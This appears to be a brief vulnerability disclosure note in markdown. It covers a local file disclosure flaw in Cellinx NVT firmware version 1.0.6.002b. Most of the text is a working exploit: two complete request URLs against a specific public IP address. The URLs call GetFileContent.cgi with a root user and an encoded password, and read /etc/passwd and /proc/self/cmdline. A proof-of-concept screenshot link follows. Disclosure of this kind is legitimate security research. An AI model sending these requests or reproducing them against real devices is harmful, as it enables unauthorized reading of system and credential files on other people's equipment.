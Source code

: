 # cellinx NVT local file disclosure vulnerability affects ver. 1.0.6.002b
## Exploit 
- http://58.149.14.210:8081/cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/etc/passwd&_=1672577046605
- http://58.149.14.210:8081/cgi-bin/GetFileContent.cgi?USER=root&PWD=D1D1D1D1D1D1D1D1D1D1D1D1A2A2B0A1D1D1D1D1D1D1D1D1D1D1D1D1D1D1B8D1&PATH=/proc/self/cmdline&_=1672577046605  
## POC 

![POC](https://github.com/ahmedalroky/CVEs/blob/cellinx/Screenshot%202023-01-02%20160402.png)
